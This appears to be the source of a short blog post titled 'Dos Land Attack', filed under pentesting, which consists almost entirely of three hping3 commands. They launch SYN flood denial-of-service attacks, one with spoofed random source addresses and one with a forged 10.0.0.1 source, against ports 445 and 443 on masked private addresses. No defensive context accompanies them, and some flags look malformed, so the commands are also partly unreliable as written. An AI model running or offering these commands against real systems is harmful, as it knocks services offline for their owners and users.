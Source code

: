 ```yaml
---
layout: post
title: Dos Land Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: Hping3
fullview: false
comments: true
---
```


{% highlight yaml %}
$ hping3 -V -C 10000000 -d 120 -S -10 64 -p 445 -S 445 --flood --rand-source 192.168.xx.xx
$ hping3 -i u1000 -S -p 443 192.168.xxx.xxx
$ hping3 -q -n 10.0.0.1 -S -s 53 --keep -p 445 --flood 192.168.xxx.xxx
{% endhighlight %}
